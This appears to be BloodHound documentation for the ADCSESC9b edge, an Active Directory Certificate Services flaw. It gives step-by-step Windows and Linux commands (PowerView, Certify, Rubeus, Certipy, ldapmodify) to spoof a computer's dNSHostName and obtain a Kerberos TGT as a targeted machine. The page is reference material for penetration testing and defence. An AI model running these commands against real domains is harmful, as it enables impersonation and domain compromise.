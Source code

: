 ---
title: ADCSESC9b
description: "The principal has control over a victim computer with permission to enroll on one or more certificate templates, configured to: 1) enable certificate authentication, 2) require the `dNSHostName`  of the enrollee included in the Subject Alternative Name (SAN), and 3) not have the security extension enabled."
---

<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 



 The victim computer also has enrollment permission for an enterprise CA with the necessary templates published. This enterprise CA is trusted for NT authentication in the forest, and chains up to a root CA for the forest. There is an affected Domain Controller (DC) configured to allow weak certificate binding enforcement. This setup lets the principal impersonate any AD forest computer without their credentials.

The attacker principal can abuse their control over the victim computer to modify the victim computer's `dNSHostName` attribute to match the `dNSHostName` of a targeted computer. The attacker principal will then abuse their control over the victim computer to obtain the credentials of the victim computer, or a session as the victim computer, and enroll a certificate as the victim in one of the affected certificate templates. The `dNSHostName` of the victim will be included in the issued certificate under SAN DNS name. As the certificate template does not have the security extension, the issued certificate will NOT include the SID of the victim computer. DCs with strong certificate binding configuration will require a SID to be present in a certificate used for Kerberos authentication, but the affected DCs with weak certificate binding configuration will not. The affected DCs will split the SAN DNS name into a computer name and a domain name, confirm that the domain name is correct, and use the computer name appended a $ to identify principals with a matching `sAMAccountName`. At last, the DC issues a Kerberos TGT as the targeted computer to the attacker, which means the attacker now has a session as the targeted computer.

## Abuse Info

### Windows

Step 1: Remove SPNs including `dNSHostName` on victim.

The SPNs of the victim will be automatically updated when you change the `dNSHostName`. AD will not allow the same SPN entry to be set on two accounts. Therefore, you must remove any SPN on the victim account that includes the victim's `dNSHostName`. 

Set SPN of the victim computer using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'serviceprincipalname'='HOST/victim'}
```

Step 2: Set `dNSHostName` of victim computer to targeted computer's `dNSHostName`.

Set the `dNSHostName` of the victim computer using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'dnshostname'='target.corp.local'}
```
Step 3: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 4.

If any of the two flags are present, you will need the victim's mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using PowerView:

```bash
Get-DomainObject -Identity VICTIM -Properties mail
```

If the victim has the mail attribute set, continue to Step 4.

If the victim does not has the mail attribute set, set it to a dummy mail using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'mail'='dummy@mail.com'}
```
Step 4: Obtain a session as victim.

There are several options for this step. You can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](/resources/edges/generic-all) documentation).

Step 5: Enroll certificate as victim.

Use Certify as the victim computer to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
Certify.exe request /ca:SERVERCA-NAME /template:TEMPLATE /machine
```
Save the certificate as `cert.pem` and the private key as `cert.key`.

Step 6: Convert the emitted certificate to PFX format:

```bash
certutil.exe -MergePFX .\cert.pem .\cert.pfx
```
Step 7 (optional): Set `dNSHostName` and SPN of victim to the previous values.

To avoid issues in the environment, set the `dNSHostName` and SPN of the victim computer back to its previous values using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'dnshostname'='victim.corp.local'}
```
```bash
Set-DomainObject -Identity VICTIM -Set @{'serviceprincipalname'='HOST/victim'}
```

Step 8: Perform Kerberos authentication as targeted computer against affected DC using certificate.

Use Rubeus to request a ticket granting ticket (TGT) from an affected DC, specifying the
target identity to impersonate and the PFX-formatted certificate created in Step 6:

```bash
Rubeus.exe asktgt /certificate:cert.pfx /user:TARGET$ /domain:DOMAIN /dc:DOMAIN_CONTROLLER
```

### Linux

Step 1: Remove SPNs including `dNSHostName` on victim.

The SPNs of the victim will be automatically updated when you change the `dNSHostName`. AD will not allow the same SPN entry to be set on two accounts. Therefore, you must remove any SPN on the victim account that includes the victim's `dNSHostName`.

Remove SPN entries with ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\ndelete: servicePrincipalName\nservicePrincipalName: SPN" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 2: Set `dNSHostName` of victim computer to targeted computer's `dNSHostName`.

Set the `dNSHostName` of the victim computer using Certipy:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM -dns TARGET.CORP.LOCAL
```
Step 3: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 4.

If any of the two flags are present, you will need the victim's mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using ldapsearch:

```bash
ldapsearch -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME -b "VICTIM-DN" mail
```

If the victim has the mail attribute set, continue to Step 4.

If the victim does not has the mail attribute set, set it to a dummy mail using ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nreplace: mail\nmail: test@mail.com" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 4: Obtain a session as victim.

There are several options for this step. You can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](/resources/edges/generic-all) documentation).

Step 5: Enroll certificate as victim.

Use Certipy as the victim principal to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
certipy req -u VICTIM@CORP.LOCAL -p PWD -ca CA-NAME -target SERVER -template TEMPLATE
```
Step 6 (optional): Set `dNSHostName` and SPN of victim to the previous values.

To avoid issues in the environment, set the `dNSHostName` and SPN of the victim computer back to its previous value using Certipy and ldapmodify:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM -dns VICTIM.CORP.LOCAL
```
```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nadd: servicePrincipalName\nservicePrincipalName: SPN" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```
Step 7: Perform Kerberos authentication as targeted computer against affected DC using certificate.

Request a ticket granting ticket (TGT) from an affected DC, specifying the certificate created in Step 5 and the IP of an affected DC:

```bash
certipy auth -pfx TARGET.pfx -dc-ip IP
```

**Opsec Considerations**

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy of that certificate in its issued certificates store. Defenders may analyze those issued certificates to identify illegitimately issued certificates and identify the principal that requested the certificate, as well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [https://attack.mitre.org/techniques/T1649/](https://attack.mitre.org/techniques/T1649/) 

### Abuse and Opsec references

* Certipy 4.0
* [Certipy](https://github.com/ly4k/Certipy)
* [GhostPack Certipy](https://github.com/GhostPack/Certify)
* [GhostPack Rubeus](https://github.com/GhostPack/Rubeus)
* [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject)
* [CertUtil.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)
* [LDAPSearch](https://linux.die.net/man/1/ldapsearch)
* [LDAPModify](https://linux.die.net/man/1/ldapmodify)
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
